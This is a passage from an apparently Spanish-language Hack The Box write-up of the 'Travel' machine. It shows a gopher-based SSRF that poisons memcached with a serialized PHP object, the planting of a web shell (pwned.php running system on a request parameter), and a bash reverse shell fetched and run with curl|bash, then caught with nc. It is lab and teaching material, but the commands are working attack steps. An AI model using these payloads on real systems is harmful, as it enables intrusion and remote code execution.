 Además, tengo que sustituir el valor del ```xct``` donde está la cadena ```SpyD3r```. Envío toda la data, la interpreto y deserializo

```null
curl -s -X GET 'http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20106%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:9:%22pwned.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27cmd%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a' 
```

```null
curl -s -X GET 'http://blog.travel.htb/awesome-rss/'
```

```null
curl -s -X GET 'http://blog.travel.htb/wp-content/themes/twentytwenty/logs/pwned.php?cmd=whoami'
www-data
```

Creo un ```index.html`` que se encargue de enviarme una reverse shell

```null
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.3/443 0>&1
```

Lo comparto con un servicio HTTP con python y gano acceso a un contenedor

```null
python3 -m http.server 80
curl -s -X GET 'http://blog.travel.htb/wp-content/themes/twentytwenty/logs/pwned.php?cmd=curl+10.10.16.3|bash'
```

```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:57548.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$ script /dev/null -c bash
</themes/twentytwenty/logs$ script /dev/null -c bash             
Script started, file is /dev/null
www-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
</wp-content/themes/twentytwenty/logs$ export TERM=xterm                     
shw-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$ export SHELL=ba 
lumns 209blog:/var/www/html/wp-content/themes/twentytwenty/logs$ stty rows 55 co 
```
